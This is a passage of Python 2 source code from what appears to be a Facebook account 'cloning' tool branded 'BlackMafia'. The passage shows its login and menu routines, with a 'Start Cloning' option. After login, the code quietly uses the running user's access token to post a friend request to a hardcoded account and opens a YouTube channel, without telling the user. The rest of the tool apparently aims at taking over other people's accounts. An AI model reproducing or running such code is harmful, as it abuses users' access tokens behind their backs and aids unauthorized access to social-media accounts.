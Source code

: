 				unikers.close()
				print '\n\x1b[1;94mLogin Successful.•◈•..'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;97mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;94mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;94mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;97mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;94mThere is no internet connection"
		keluar()
	os.system("clear") #Dev:love_hacker
	print logo
	print "  \033[1;97m«----•◈••◈•----\033[1;94mLogged in User Info\033[1;97m----•◈••◈•-----»"
	print "	   \033[1;97m Name\033[1;97m:\033[1;94m"+nama+"\033[1;97m               "
	print "	   \033[1;97m ID\033[1;97m:\033[1;94m"+id+"\x1b[1;97m              "
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•\033[1;94mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m1.\x1b[1;94mStart Cloning..."
	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m0.\033[1;97mlogout            "
	pilih()

